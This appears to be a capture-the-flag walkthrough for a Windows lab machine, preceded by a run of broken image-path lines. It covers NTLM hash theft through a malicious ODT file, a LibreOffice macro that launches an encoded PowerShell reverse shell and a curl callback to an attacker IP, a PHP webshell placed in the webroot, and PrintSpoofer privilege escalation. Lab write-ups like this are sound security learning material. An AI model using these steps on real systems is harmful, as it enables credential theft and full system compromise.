









Shell as TheCyberGeek
The only port open is port 80 which is hosting a webpage.
We have an uploads directory and can upload ODT files

Uploading a random file shows us only ODT files are allow

Using this script above or this website we can manually create an exploit to steal the NTLM creds of whoever opens the file
https://github.com/rmdavy/badodf/blob/master/badodt.py
https://secureyourit.co.uk/wp/2018/05/01/creating-malicious-odt-files/
Run responder and we capture the hash for thecybergeek

We cant get this hash to crack so im going to look for other exploits. I remembered doing a similar machine for Hack The Box a while back called Mailing which involved creating a malicious ODT file with an embedded macro which allowed RCE.
On my windows machine I open libre office and create a new document and create this macro below. The first line opens a reverse shell, its a bit complicated so I create a second line which does a simple curl command just in case the reverse shell doesnt work for whatever reason.
REM ***** BASIC *****
Sub Main Shell("cmd /c powershell -Exec ByPass -Nol -Enc <base64 encoded shell.ps1>") Shell("cmd /c curl http://192.168.45.231/RCECONFIRMED")End Sub
Then we set the macro to run when the document is opened(I tested this on my machine using the curl command and confirmed it worked). When I uploaded it to the site, nothing worked. However it worked perfectly fine on my up to date windows machine. In the initial script I had an extra set of single quotes which caused it to break on the CTF, but still worked on my machine for some reason.
Correct command - Shell("cmd /c curl http://192.168.45.231/RCECONFIRMED")
“Incorrect” command - Shell("cmd /c 'curl http://192.168.45.231/RCECONFIRMED'")

Once I solved that I uploaded it to the site and got a shell and callback from the curl command.

Shell as Apache
We can get the user flag now and we notice another user directory named Apache which is really strange.
We can get access to this user by uploading a webshell in the webroot directory. There is an uploads directory but theres a cleanup script deleting uploads instantly so we want to upload it to the root directory below.
C:\xampp\htdocs\
Then we access our webshell at
http://192.168.110.169/webshell.php

Getting a shell using the same powershell method above and we have SeImpersonate

Shell as Administrator
The machine is running windows server 2019 so I am going to use PrintSpoofer.exe to exploit SeImpersonate
https://github.com/dievus/printspoofer/blob/master/PrintSpoofer.exe
.\PrintSpoofer.exe -i -c cmd

Now we can grab the final flag and finish out this machine.
